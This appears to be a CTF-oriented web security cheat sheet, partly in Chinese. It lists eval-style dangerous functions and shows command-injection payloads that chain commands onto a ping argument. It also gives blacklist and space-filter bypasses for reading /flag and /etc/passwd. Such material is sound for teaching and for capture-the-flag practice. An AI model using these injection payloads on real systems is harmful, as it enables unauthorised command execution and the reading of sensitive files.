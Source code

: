 ## Injection

* Dangerous funciton
    * PHP
        * eval
        * assert
        * create_function // removed since PHP 8.0
    * Python
        * exec
        * eval
    * JavaScript
        * eval
        * (new Function(/* code */))()
        * setTimeout / setInterval
        * ...

### Command Injection
* Basic Tricks
    * ping 127.0.0.1 **;id**
        * ; -> 代表結束一個指令
    * ping 127.0.0.1 **|id**
        * A|B -> 代表 pipe A 的結果給 B
    * ping 127.0.0.1 **&&id**
        * A&&B -> 代表如果 A 成功，才執行 B
    * ping 127.0.0.1 **||id**
        * A||B -> 代表如果 A 失敗，才執行 B
* Space bypass
    * `cat<TAB>/flag`
    * `cat</flag`     - pipeable command
    * `{cat,/flag}`   - brace expansion
    * `cat$IFS/flag`  - IFS (Internal Field Separator)
    * `X=$'cat\x20/flag'&&$X`
* **Blacklsit** bypass
    * `cat /f'la'g` / `cat /f"la"g`
    * `cat /f\l\ag`
    * `cat /f*`
    * `cat /f?a?`
    * `cat ${HOME:0:1}etc${HOME:0:1}passwd`

### SQL Injection
* SQL Map
    * sqlmap.py

